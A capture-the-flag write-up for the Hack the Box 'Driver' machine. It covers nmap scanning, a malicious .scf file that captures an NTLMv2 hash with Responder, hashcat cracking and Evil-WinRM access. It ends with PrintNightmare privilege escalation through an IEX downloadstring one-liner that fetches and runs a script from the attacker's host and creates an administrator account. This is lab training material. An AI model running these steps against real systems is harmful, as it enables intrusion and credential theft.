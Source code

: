 ```yaml
---
title: HTB-Driver
date: 2022-07-10 11:27:10 +0200
categories: [HACK THE BOX, DRIVER]
tags: [driver]  
---
```


---
categories: [Hack the Box]
tags: [Driver]
---
 
Target machine: **10.129.195.84**  
Attack  machine: **10.10.14.11**

![Desktop View](/assets/img/HTB/Driver/Driver.png){: width="1398" height="964" }
_Driver form Hack the Box_

Before I start with hacking I always edit the **/etc/hosts** file, mostly out of ease:
```
<TARGET-IP> driver.htb
```
Now lets start with an Nmap scan to see what juicy **TCP** ports are open. 

## NMAP 
```bash 

┌──(kali㉿kali)-[~/Documents/HacktheBox/Driver]
└─$ sudo nmap -p80,135,445,5985 -sV -sC -T4 -Pn -oA 10.129.195.84 10.129.195.84
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-19 08:51 EST
Nmap scan report for driver.htb (10.129.195.84)
Host is up (0.023s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2021-11-19T20:51:26
|_  start_date: 2021-11-19T20:28:32
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.61 seconds


```

If we look at the **nmap** scan we see that we have a Windows server with a website on port 80, Microsoft Windows RPC on port 135 and 
an **SMB** port on 445.


Port 80 is always a good start to begin with, so let's browse to http://driver.htb.  
The site uses basic authetication and I was able to authenticate with the famous duo **admin:admin**.
	
![Desktop View](/assets/img/HTB/Driver/Website.png){: width="1286" height="770" }
_MFP Firmware Update Center_

First glance at the website shows us that this is printer management software that you can use to update the firmware.

![Desktop View](/assets/img/HTB/Driver/File_Upload.png){: width="1096" height="368" }
_File Upload_

I was able to upload my own files but none of my reverse shell attempts worked. Eventually
with some google searching I stumbled on the SMB-share file attack. You can find the article [here](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/).

So lets try it out.

## SMB-share file attack 

As described in the article: let's open a text editor and create the following **.scf** file: 
```
[Shell]
Command=2
IconFile=\\<ATTACK-MACHINE-IP>\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
Before we upload the file make sure you have [**Responder**](https://www.kali.org/tools/responder/) listening.
```
sudo responder -wrf --lm -v -I tun0
```
Now let's upload the malicious **.scf** file we created. After the upload we will see
that **Responder** captured an **NTLM2** hash. If you are not sure with what hash you're dealing with
you can run tools like Hash-Identifier or use the [**Hashcat-wiki**](https://hashcat.net/wiki/doku.php?id=example_hashes)
or let **John the Ripper** make a guess for you.
 
```
[SMB] NTLMv2 Client   : 10.129.186.144
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:519b5e6d8014443e:84EECB86F592AD33C14BCFD75FADF8B0:010100000000000014418EE67DEBD701176F0EFA5976B78000000000020000000000000000000000

```
All you have to do now is crack the hash with your favourite tool, I used **Hashcat**.
```
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```
**Hashcat** successfully cracked the hash and we now have the password: **liltony**
```
TONY::DRIVER:368ad063be1dd4f9:d2065c3cf444030f336f110dece37a04:01010000000000001fb200e77debd7014f2010d0d5eab9f300000000020000000000000000000000:liltony
```
Let's try to login with **Evil-Winrm**:

```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.186.144 -u 'tony' -p 'liltony'         

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
*Evil-WinRM* PS C:\Users\tony\Documents> 

```
Success! We've got the first user-flag:
```
*Evil-WinRM* PS C:\Users\tony\Desktop> type user.txt
4633df9a68[....]

```

## Privileged Escalation
After some enumeration I found that the **spoolsv** service is
running which is the print spooler service.  

![Desktop View](/assets/img/HTB/Driver/spoolv.png){: width="647" height="487" }

This machine could be vulnerable for the **print nightmare** exploit if the Print Spooler service improperly performs privileged file operations.
If this is the case, the machine is vulnerable for remote code execution.

So let's exploit this bad boy.


## Print Nightmare 
Source: https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html


Start a webserver with the **CVE-2021-1675.ps1** script 
```
python3 -m http.server
```
On the target machine, run the following to get the **CVE-2021-1675.ps1** script.
```
IEX(New-Object Net.Webclient).downloadstring('http://<ATTACK-MACHINE-IP>:8000/CVE-2021-1675.ps1')
```
You can also upload the file via the upload function of **Evil-WinRM**. 

ANYHOW... now all we have to do is run the script on the target machine:
```
*Evil-WinRM* PS C:\Users\tony\Documents> Invoke-Nightmare -NewUser "Testy" -NewPassword "Test123"

[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user Testy as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll

```
This should add a new user as local administrator. 

Let's see if the **Testy** user is added 
and got the right privileges:
```
*Evil-WinRM* PS C:\Users\tony\Documents> net user Testy
User name                    Testy
Full Name                    Testy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            12/7/2021 10:51:38 AM
Password expires             Never
Password changeable          12/7/2021 10:51:38 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.

```

Login with the new created account via **Evil-Winrm**
```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.186.159 -u 'Testy' -p 'Test123'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Testy\Documents> whoami
driver\testy

```

And we are there guys, get that beverage open and pop that bag of chips, you've earned it.

```
*Evil-WinRM* PS C:\Users\Testy\Documents> cd C:\Users\Administrator
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
d*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        12/7/2021  10:19 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
997724e489b4[...]
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```

Hope you had just as much fun as I had, see you on the next hacking adventure.


